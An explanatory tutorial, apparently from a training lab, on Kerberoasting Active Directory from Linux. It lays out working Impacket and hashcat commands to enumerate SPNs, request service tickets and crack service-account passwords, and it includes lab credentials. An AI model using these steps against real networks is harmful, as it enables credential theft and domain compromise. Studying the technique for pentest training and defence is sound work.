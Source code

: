  `We will use the following credentials: User=forend and password=Klmcargo2`
## What is Kerberoasting (in simple words)?

Think of a company’s internal network (Active Directory) like a big office where:

- 🧍Users = Employees
- 🖥️ Services (like SQL, IIS, etc.) = Office machines
- 🔑 Kerberos = Security guard that hands out keys to access those services

Some office machines are assigned to specific employees (via SPNs – Service Principal Names). The Kerberos guard will give out a special encrypted **service ticket** (TGS) if you ask for one of these services.

But here's the problem:

> The service ticket is **encrypted using the password of the user who runs the service**. So if we can grab this ticket, we can try to **crack it offline** to get the **user’s password** – often this user is a service account with high privileges. This is **Kerberoasting**.

---

## 🧰 What do you need before running Kerberoasting?

✅ You must have **valid domain user credentials**  
✅ You must be **able to query the domain controller**  
✅ You want to **find accounts that have SPNs set** (meaning they're running services


#  **Step-by-Step Attack From Linux (Using Impacket)**

### 1.  **Install Impacket**
```bash
git clone https://github.com/fortra/impacket
cd impacket
sudo python3 -m pip install .
```
### 2.  **List SPNs (Service Accounts)**
```bash
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USERNAME>

# example
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

✅ You’ll be prompted for the password  
✅ This will list service accounts like:

- `MSSQLSvc/SERVER.DOMAIN.LOCAL:1433`
- `backupjob/SERVER.DOMAIN.LOCAL`

📌 **Check if any are Domain Admins!** Those are jackpot targets.


## 3.  **Request All TGS Ticket**
```bash

# **Request All TGS Tickets (for all SPNs)**
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USERNAME> -request

# Request Ticket for a Specific Account (Optiona)
GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN>/<USERNAME> -request-user <TARGET_ACCOUNT>
#example
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sapservice_tgs
```


## 4.  **Crack the TGS Ticket (Offline)**

```bash
hashcat -m 13100 hash.txt /path/to/wordlist.txt
```
Where:
- `-m 13100` is the mode for Kerberos 5 TGS-REP
- `hash.txt` contains the `$krb5tgs$...` ticket(s)